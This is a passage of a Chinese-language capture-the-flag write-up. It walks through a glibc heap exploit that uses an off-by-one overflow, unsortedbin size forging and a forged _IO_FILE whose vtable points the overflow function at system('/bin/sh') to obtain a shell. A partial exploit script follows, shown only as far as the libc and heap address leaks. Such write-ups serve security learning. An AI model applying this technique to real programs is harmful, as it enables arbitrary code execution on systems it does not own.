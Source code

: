 计算之后 vtable 的值应该设置为`heap+0x178`

![](https://static.hack1s.fun/images/2021/11/16/image-20211116193809247.png)

图中绿色是`/bin/sh`的字符串

粉色是`write_base`和`write_ptr`，已经设置为了 1 和 2

红色是`overflow`函数指针，设置为了`system`的地址

蓝色是`vtable`指针，重新指向了`heap+0x178`处

这时只要再次 malloc，将 unsortedbin sort 到 0x60 的 smallbin 中，`_IO_list_all`就会顺着`_chain`指向我们伪造的`_IO_FILE`

* * *

但是再次 malloc 会发现，什么都没有发生

这是因为我们申请的 chunk 大小本身就是`0x60`，再次 malloc 时这个 unsortebin 根本不会 sort，由于大小刚刚好，直接就给我们分配过来了

跟着`_IO_list_all`的指针看一下，可以发现`_IO_list_all.file._chain._chain`还是在`main_arena`内

![](https://static.hack1s.fun/images/2021/11/16/image-20211116194429079.png)

对照着 arena 的分布图可以得知这个位置是 0xb0 大小的 smallbin

既然 0x60 的没办法 sort，那我们可以在申请前再一次利用 off by one 的漏洞把原本 0x60 大小的 unsortedbin 伪造为 0xb0 大小

这样让`_IO_list_all`指针指两层后再指向我们申请的 chunk_C 处

那么就是需要修改一下 chunk_B 的 edit 那句

```
edit(chunk_B,p64(0)*10+b"/bin/sh\x00"+b'\xb1')

```

最后增加了一个字节的修改

![](https://static.hack1s.fun/images/2021/11/16/image-20211116194819999.png)

修改完成之后，再次 malloc

![](https://static.hack1s.fun/images/2021/11/16/image-20211116195438001.png)

就得到了一个 shell

完整的 payload

```
chunk_A = malloc()
chunk_B = malloc()
chunk_C = malloc()
chunk_D = malloc()
chunk_E = malloc()

edit(chunk_A, b"Y"*0x50+ p64(0x60) + b'\xc1')

free(chunk_B)

chunk_B = malloc()
data = u64(read(chunk_C)[:8])
offset = libc.sym.main_arena + 0x58
libc.address = data - offset
log.info(f"libc @ 0x{libc.address:02x}")

chunk_C2 = malloc()
free(chunk_A)
free(chunk_C2)

heap = u64(read(chunk_C)[:8])
log.info(f"heap @ 0x{heap:02x}")
```